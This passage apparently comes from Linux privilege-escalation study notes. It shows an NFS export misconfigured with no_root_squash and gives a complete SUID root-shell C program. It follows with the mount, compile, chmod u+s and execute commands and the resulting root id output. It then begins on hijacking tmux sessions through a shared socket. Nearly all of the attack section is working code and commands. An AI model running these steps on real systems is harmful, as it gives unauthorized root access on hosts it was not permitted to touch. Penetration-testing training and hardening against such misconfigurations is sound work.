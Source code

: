 **Example `/etc/exports`:**
```
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

### 🧪 Exploiting NFS with SUID Binary
1. Create a shell binary:
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

2. Compile and copy to NFS mount:
```bash
gcc shell.c -o shell
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

3. Execute from low-privileged user:
```bash
./shell
id
```

**Result:**
```bash
uid=0(root) gid=0(root) groups=0(root),...
```

## 🖥️ Hijacking Tmux Sessions

`tmux` allows persistent terminal sessions. If a root session is created with weak permissions, it can be hijacked.

### 🧵 Creating Shared Session
```bash
tmux -S /shareds new -s debugsess
chown root:devs /shareds
```

### 🔍 Check Running Tmux
```bash
ps aux | grep tmux
```
